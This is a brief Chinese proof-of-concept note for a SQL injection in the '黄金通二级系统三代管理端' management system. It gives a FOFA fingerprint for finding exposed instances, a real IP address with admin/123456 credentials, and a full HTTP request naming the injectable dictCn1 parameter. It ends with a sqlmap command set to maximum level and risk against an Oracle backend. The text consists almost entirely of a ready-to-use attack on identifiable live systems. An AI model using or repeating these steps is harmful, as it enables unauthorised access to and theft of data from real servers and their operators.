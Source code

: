 fofa:
```plane
title="黄金通二级系统三代管理端"
```
测试账号
https://113.105.126.146:8900/  admin/123456

报文

```
POST /paraframework/queryTsDictionaryType.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=fhbgfoz89o5n1jf31529d0xhp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 44
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/paraframework/tsDictionaryTypeInfo.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&dictEn1=SEATTYPE&dictCn1=席位代码

```
参数dictCn1存在SQL注入

sqlmap命
```plane
python sqlmap.py -r 1.txt --force-ssl --level 5 --risk 3 --dbms Oracle
```
![wechat_2025-04-22_145646_063.png](images/wechat_2025-04-22_145646_063.png)


